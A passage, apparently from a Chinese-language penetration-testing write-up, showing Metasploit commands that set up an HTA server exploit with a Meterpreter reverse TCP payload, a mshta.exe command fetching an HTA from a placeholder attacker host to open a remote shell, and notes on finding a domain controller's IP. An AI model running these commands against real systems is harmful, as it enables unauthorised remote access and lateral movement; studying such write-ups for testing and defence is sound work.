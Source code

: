     ```plain
    use exploit/windows/misc/hta_server
    set payload windows/meterpreter/reverse_tcp
    set lhost xx.xx.xx.xx
    set lport 6666
    ```
    
    执行 mshta.exe [http://xx.xx.xx.xx/pKz4Kk059Nq9.hta](http://xx.xx.xx.xx/pKz4Kk059Nq9.hta)  
    [![](assets/1698896982-57af87ded2685775c788905428874eae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200307185241-c4ab51e0-6061-1.png)
    
-   查找了下域控ip 192.168.30.61  
    [![](assets/1698896982-ab06c1bffb2a17ec0d291a3655fe5abc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200307185313-d7d8beec-6061-1.png)
    
-   这里存活ip检测不够准确(后面cs扫还有给.11主机)  